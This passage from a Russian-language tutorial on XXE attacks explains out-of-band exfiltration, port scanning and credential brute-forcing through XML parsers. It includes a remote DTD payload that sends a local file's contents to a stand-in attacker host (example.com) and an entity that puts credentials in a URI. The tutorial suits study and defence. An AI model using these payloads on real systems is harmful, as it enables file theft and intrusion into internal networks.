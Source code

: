 Здесь [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) определяет два внешних параметра: `file` загружает локальный файл и `dtd`, который загружает удаленный [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp). Удаленный [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) должен содержать что-то вроде этого:
 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'http://example.com/?%file;'>">
%all;
```

Второй [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) заставляет систему отправлять содержимое "файла" обратно на сервер злоумышленника в качестве параметра URL-адреса.

##### Сканирование портов

Объем и тип информации, генерируемой при сканировании портов, будут зависеть от типа реализации. Ответы могут быть классифицированы следующим образом, от простых до сложных:

**1) Полное раскрытие информации**: Это самый простой и необычный сценарий, при полном раскрытии информации вы можете четко видеть, что происходит, получая полные ответы от запрашиваемого сервера. У вас есть точное представление о том, что произошло при подключении к удаленному хосту.

**2) На основе ошибок**: Если вы не можете увидеть ответ от удаленного сервера, возможно, вы сможете использовать информацию, полученную в результате ответа об ошибке. Представьте, что веб-служба выдает сведения о том, что пошло не так в элементе SOAP Fault при попытке установить соединение:

```text
java.io.IOException: Server returned HTTP response code: 401 for URL: http://192.168.1.1:80
 at sun.net.www.protocol.http.HttpURLConnection.getInputStream(HttpURLConnection.java:1459)
 at com.sun.org.apache.xerces.internal.impl.XMLEntityManager.setupCurrentEntity(XMLEntityManager.java:674)
```

**3) На основе тайм-аута**: Сканер может генерировать тайм-ауты при подключении к открытым или закрытым портам в зависимости от схемы и базовой реализации. Если при попытке подключиться к закрытому порту возникают задержки (которые могут занять одну минуту), то при подключении к действительному порту время ответа будет очень коротким (например, одна секунда). Различия между открытыми и закрытыми портами становятся совершенно очевидными.

**4) Привязка ко времени**: Иногда бывает трудно определить разницу между закрытыми и открытыми портами, поскольку результаты очень малозаметны. Единственный способ с уверенностью узнать статус порта - это провести несколько измерений времени, необходимого для достижения каждого хоста, затем вы должны проанализировать среднее время для каждого порта, чтобы определить статус каждого порта. Этот тип атаки будет трудно осуществить, если она будет осуществляться в сетях с более высокой задержкой.

##### Брутфорсинг

**Как только злоумышленник подтвердит, что можно выполнить сканирование порта, для осуществления атаки методом перебора необходимо ввести "имя пользователя" и "пароль" как часть схемы URI (http, ftp и т.д.).** Например, смотрите следующий пример:

```xml
<!DOCTYPE root [
 <!ENTITY user SYSTEM "http://username:password@example.com:8080">
]>
<root>&user;</root>
```
